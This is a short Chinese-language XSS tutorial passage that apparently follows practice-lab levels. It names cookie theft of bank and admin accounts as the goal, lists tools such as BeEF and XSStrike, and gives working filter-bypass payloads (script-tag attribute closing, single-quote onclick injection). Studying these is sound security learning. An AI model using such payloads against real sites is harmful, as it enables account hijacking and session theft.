 文章发表、评论、留言、注册资料的地方、修改资料的地方等

# 利用

### 利用目的

- **盗取**各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号——Cookie

### 利用方式

#### 在线XSS平台

各类在线XSS平台，为避免后门，建议自己搭建XSS平台

#### 工具

- Kali下的BeEF-Xss漏洞利用框架

- 自动化XSS工具——XSStrike

#### 常用绕过过滤代码

##### Level-2——普通闭合

目的语句：

```html
<input name=keyword  value=""><script>alert(1)</script>">
```

提交payload

```html
"><script>alert(1)</script>
```

##### Level-3——过滤尖括号——onclick事件属性

原始input标签

```html
<input name=keyword  value='111111'>	
```

目的input标签(注意value属性的前半个单引号和后半个单引号的闭合)

```html
<input name=keyword  value='11111' onclick='alert(1)'>	
```

我们提交的XSS语句就成为：

```html
11111' onclick='alert(1)
```

因而可以绕过对于提交内容中的尖括号的过滤

##### Level-5——过滤`<script`和 `on`字符——超链接
